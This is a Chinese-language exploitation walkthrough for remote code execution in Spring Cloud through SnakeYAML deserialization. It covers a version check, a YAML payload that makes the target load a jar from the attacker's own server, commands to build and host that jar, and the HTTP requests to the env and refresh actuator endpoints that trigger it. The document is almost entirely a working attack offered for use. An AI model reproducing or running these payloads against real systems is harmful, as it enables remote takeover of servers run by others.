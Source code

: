 # spring cloud SnakeYAML RCE
#### 搜索`spring-cloud-starter`查看版本是否小于1.3.0.RELEASE
![](./imf/spring-cloud-starter.png)
#### 修改yaml-payload.yml配置文件
```xml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://<yourVPS:8888>/yaml-payload.jar"]
  ]]
]
```
#### 修改AwesomeScriptEngineFactory.java文件中执行命令代码,然后编译并打成jar包,生成yaml-payload.jar
`javac yaml-payload/src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C yaml-payload/src/ .`
#### 将jar文件和yml文件托管到http服务
`python3 -m http.server 80`  
![](./img/httpServer.png)
#### 发送设置spring.cloud.bootstrap.location属性数据包
- spring 1.x  
```
POST /env
Host: x.x.x.x
Content-Type: application/x-222-form-urlencoded

spring.cloud.bootstrap.location=http://192.168.43.183:8888/yaml-payload.yml
```
![](./img/yamlPayload.png)
- spring 2.x  
```
POST /actuator/env
Host: x.x.x.x
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"yourVPSip/yaml-payload.yml"}
```
#### 发送刷新配置数据包
- spring 1.x
```
POST /refresh
Host: x.x.x.x
Content-Type: application/x-www-form-urlencoded
```
![](./img/refreh.png)
- spring 2.x
```
POST /actuator/refresh
Host: x.x.x.x
Content-Type: application/json
```